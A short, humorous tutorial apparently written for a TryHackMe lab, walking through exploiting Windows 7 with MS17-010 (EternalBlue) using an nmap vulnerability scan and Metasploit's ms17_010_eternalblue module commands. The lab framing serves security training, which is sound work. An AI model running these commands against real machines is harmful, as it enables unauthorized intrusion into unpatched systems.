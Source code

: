 # Exploiting Windows 7 with smb-vuln-ms17-010.nse on TryHackMe:


1. Prepare Your Tools:

Fire up your terminal (Kali Linux) and make sure you’ve got the essential tools in your arsenal. The nmap utility will be your hyperdrive – scan the target's ports and identify vulnerable systems.

nmap -p 445 --script smb-vuln-ms17-010 <target_ip>

2. Choosing Your Payload:

Next, let’s load our torpedoes… I mean, payloads. Grab your preferred shellcode (reverse/bind — it’s your choice, after all) and suit up. Metasploit’s msfconsole is your co-pilot here.

msfconsole 

use exploit/windows/smb/ms17_010_eternalblue

set RHOSTS <target_ip>

exploit

3. The Grand Entrance:

Now’s the time to breach the hull, or rather, exploit the system. Keep in mind that you’re essentially wielding a powerful laser here, so make sure your intentions are in line with your galactic compass.


4. Celebrate Responsibly:
   
If all goes well, you’ve just breached the fortress! You’ve got your hands on the Windows 7 system like Zaphod Beeblebrox on a cup of Pan Galactic Gargle Blaster. Celebrate your triumph, but remember, with great power comes great responsibility.

And there you have it, intrepid explorer! Your quest to gain access to a Windows 7 system using the smb-vuln-ms17-010.nse script is complete. But let's not forget the lesson from the Infinite Improbability Drive – always backup your data, tread carefully, and ensure that your actions across the digital cosmos are noble and ethically sound. May your bytes be glitch-free and your exploits legendary!
